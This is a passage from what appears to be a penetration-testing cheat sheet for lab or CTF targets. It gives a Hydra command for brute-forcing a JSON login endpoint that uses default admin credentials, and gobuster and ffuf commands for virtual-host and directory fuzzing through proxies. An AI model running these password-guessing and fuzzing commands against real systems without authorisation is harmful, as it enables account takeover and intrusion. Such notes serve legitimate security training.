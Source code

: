 {% tabs %}
{% tab title="Request Body - JSON" %}
```
{"username":"admin","password":"admin"}
```
{% endtab %}

{% tab title="Request Path" %}
```
/api/user/login
```
{% endtab %}

{% tab title="Error message for incorrect logins" %}
```
"Invalid Username Or Password"
```
{% endtab %}
{% endtabs %}

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

{% code overflow="wrap" %}
```sh
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
```
{% endcode %}

{% hint style="info" %}
If you're struggling with JSON, the API route also accepts form data, which is easier to use with Hydra.
{% endhint %}

## VHOST

{% code overflow="wrap" fullWidth="true" %}
```bash
# VHOST, if it is abc.def.com, add it + def.com to hosts and try fuzzing --- USE BIGGER WORDLISTS IF NEEDED
gobuster vhost -u http://def.com -w subdomains-top1million-110000.txt (--append-domain) -t 150
ffuf -u http://domain.com -c -w namelist.txt -H 'Host: FUZZ.google.com' -t 150
# Always try different DNS wordlists, even big ones such as directory-list-medium or dns-Jhadix
```
{% endcode %}

## Proxychains

```bash
# With dynamic port forwarding on port 1080
ffuf -c -r -u '$URL/FUZZ' -w common.txt -ic -x socks5://127.0.0.1:1080
# Burp if configured on localhost:8080
ffuf -c -r -u '$URL/FUZZ' -w common.txt -ic -x http://127.0.0.1:8080
```

## Wordlists
